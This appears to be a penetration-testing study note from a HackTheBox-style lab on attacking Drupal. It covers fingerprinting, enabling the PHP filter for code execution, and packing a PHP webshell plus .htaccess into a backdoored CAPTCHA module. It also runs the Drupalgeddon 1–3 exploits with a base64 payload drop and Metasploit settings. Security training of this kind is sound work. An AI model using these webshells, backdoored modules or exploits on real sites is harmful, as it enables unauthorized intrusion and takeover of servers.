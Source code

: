 ### Footprinting + Enumeration
```bash
droopescan scan drupal -u http://blog.inlanefreight.local
```

```bash
curl -s http://drupal.inlanefreight.local | grep Drupal
curl -s http://drupal.inlanefreight.local/node/1
```
> [!NOTE] Note
> Not every Drupal installation will look the same or display the login page or even allow users to access the login page from the internet.

Trying this against the latest Drupal version will give a 404
```bash
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

### Exploitation
##### RCE before version 8.0
In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."
![](https://academy.hackthebox.com/storage/modules/113/drupal_php_module.png)

`Save configuration` -> `Content` -> `Add content` -> `Basic page`

Slap this bad boy in there (**avoid driveby shooters by using md5 hash**) and make sure the`Text format` drop-down is set to `PHP code`
```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```
Node number may vary
```bash
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
```
##### RCE 8.0 and up
From version 8 onwards, the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default. To leverage this functionality, we would have to install the module ourselves. Since we would be changing and adding something to the client's Drupal instance, we may want to check with them first.
```bash
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Install the plugin (may be under the `Extend menu` depending on the Drupal version)

`Administration` -> `Reports` -> `Available updates` -> `Browse` -> Install

From there we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7. **Be sure to select `PHP code` from the `Text format` dropdown**

##### Uploading a Backdoor Module
Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module. Modules can be found on the drupal.org website. Let's pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). 
```bash
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
Create a webshell
```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```
Create a `.htaccess` file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
Copy both files to the captcha folder and tar it up
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
Install: `Manage` -> `Extend` -> `+ Install new module` -> `Upload and Install`
Exploit
```bash
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

##### Known Vulnerabilities
###### [Drupalgeddon1](https://www.exploit-db.com/exploits/34992) 
This allows us to add a new admin user from an unauthenticated standpoint
```bash
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u adot -p pwnd
```

###### [Drupalgeddon2](https://www.exploit-db.com/exploits/44448)
This allows for RCE
```bash
python3 drupalgeddon2.py 

curl -s http://drupal-dev.inlanefreight.local/hello.txt
```
Update script payload
```php
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64
echo "PD9waHAgc<snip>" | base64 -d | tee adot8.php
```

```bash
curl http://drupal-dev.inlanefreight.local/adot8.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

##### [Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3)
This is an authenticated remote code execution vulnerability that affects [multiple versions](https://www.drupal.org/sa-core-2018-004) of Drupal core. It requires a user to have the ability to delete a node. We can exploit this using Metasploit, **but we must first log in and obtain a valid session cookie**.
```bash
exploit/multi/http/drupal_drupageddon3
exploit/multi/http/drupal_drupageddon

msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) > show options 
```


Drupal core has suffered from a few serious remote code execution vulnerabilities, each dubbed `Drupalgeddon`. At the time of writing, there are 3 Drupalgeddon vulnerabilities in existence.

- [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005), known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.
    
- [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.
    
- [CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/), also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.

